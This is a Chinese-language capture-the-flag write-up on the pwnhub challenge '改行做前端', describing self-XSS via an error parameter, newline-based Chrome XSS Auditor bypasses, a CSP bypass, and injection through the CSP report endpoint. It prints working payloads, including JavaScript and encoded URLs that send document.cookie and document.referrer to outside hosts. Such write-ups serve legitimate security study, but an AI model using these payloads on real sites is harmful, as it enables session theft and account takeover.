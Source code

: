 ```yaml
---
title: pwnhub 改行做前端
date: 2017-08-15 23:21:49
tags:
- pwnhub
- xss
- csp
categories:
- Blogs
---
```


题目说实话是完成了一半，后一半是无意中上车的，有一些迷...关于注入部分是后来才发现的。

这里先按照我的思路来吧

<!--more-->

# self-xss #

站内有提交bug的地方，地址必须是`http://54.222.168.105:8065/`开头，也就是说我们必须找到一个self-xss的地方。

无意间发现，如果提交错误，那么错误是通过302跳回`?error=xxx`来输出到页面内jquery中，然后通过jquery输出到页面的，输出内容大多都经过了转义。

![image.png-199.5kB][1]

也就是说我们没办法通过闭合语句来执行js。

这里有一个小trick，假设`<>`没有被过滤，那么可以直接插入一个`</script>`，那么script闭合标签的优先级大于引号包裹，就会直接闭合。

![image.png-1102.1kB][2]

这下我们通过前后闭合，就可以在页面内插入任意标签了。现在又有了新的问题，因为题目中要求必须是最新版chrome，所以如果我们想要构造xss请求，就会被xss auditor拦截。

这里就需要几个长短短刚刚公布的基于换行的xss auditor bypass
```
<scirpt>(br=1)*/%0dalert(1)</script>
```

```
<script>alert(1)%0d%0a-->%09</script>
```
还有一种不闭合`</script`的方式，但是我本地测试失败了，不清楚是什么回事。

当我们能够bypass xss auditor的时候，出现了新的问题，CSP

![image.png-31.5kB][3]

这里有个小细节就是最后的`report-uri /report`，可能是看CSP太多了，完全没注意到这部分，就看到`unsafe-inline`就知道要干嘛了...这部分一会儿再说

因为有CSP，所以我们需要bypass unsafe-inline才能把数据发送出来。

测试了半天，不知道为什么不能使用location.href，可能是换行导致的语义有问题，这里我换用了a的click跳转，来发送数据出来。

```
var a=document.createElement("a");
a.href='http://xss.com/?cookie='+escape(document.cookie);
a.click();
```

因为单双引号会被转义，所以这里使用String.fromCharCode来替代所有的字符串。

最终打后台的payload
```
http://54.222.168.105:8065/?error=132</script><script>1<(br=1)*/%0dalert(1);a=document.createElement(String.fromCharCode(97));a.href=String.fromCharCode(104,116,116,112,58,47,47,48,120,98,46,112,119,63)%2bdocument.cookie;a.click();alert(2);</script>
```

这里有个小问题是`<>`是被过滤了，这里给了新的提示
```
2017.08.12 15:56:54后台代码：<a href="<?=htmlspecialchars($url)?>" target="_blank"><?=htmlspecialchars($url)?></a>，管理员会点击并查看，但要考虑浏览器的过滤。
```

链接是写入a标签的，bot通过点击来判断，那么我们本质上可以通过url编码或者html编码来绕过这部分判断，然后点击之后依然会进入链接，这里因为有htmlspecialchars在，所以html编码中的`&`就会被二次编码，所以只能使用url编码了。

```
http://54.222.168.105:8065/?error=132%3C%2fscript%3E%3Cscript%3E1%3C%28br=1)*/%0dalert(1);a=document.createElement(String.fromCharCode(97));a.href=String.fromCharCode(104,116,116,112,58,47,47,48,120,98,46,112,119,63)%2bdocument.referrer;a.click();alert(2%29%3B%3C%2fscript%3E
```

这里打到后台地址和cookie，进入后台发现一无所获，到很晚之后才发现后台有login.

但是我们无法登陆。

# 注入 #

这里我们又回到前台来，刚才我们提到CSP中有一部分`report-uri /report`

这是一个CSP中的功能，当请求处罚了CSP时，就会向report-uri发送一些信息

![image.png-121.2kB][4]

这里多个参数都存在注入点，其中过一个账号可以被解开，使用这个账号登陆后台就可以获得flag了。



  [1]: http://static.zybuluo.com/LoRexxar/d8xt7lg79qpug1bg5h2iz12f/image.png
  [2]: http://static.zybuluo.com/LoRexxar/6r4v068dowoe21oko5dc3bbm/image.png
  [3]: http://static.zybuluo.com/LoRexxar/tncxdcdxhyndjiwzhd78bjlk/image.png
  [4]: http://static.zybuluo.com/LoRexxar/n422bqq6r3t2bbrlaab4kfc8/image.png
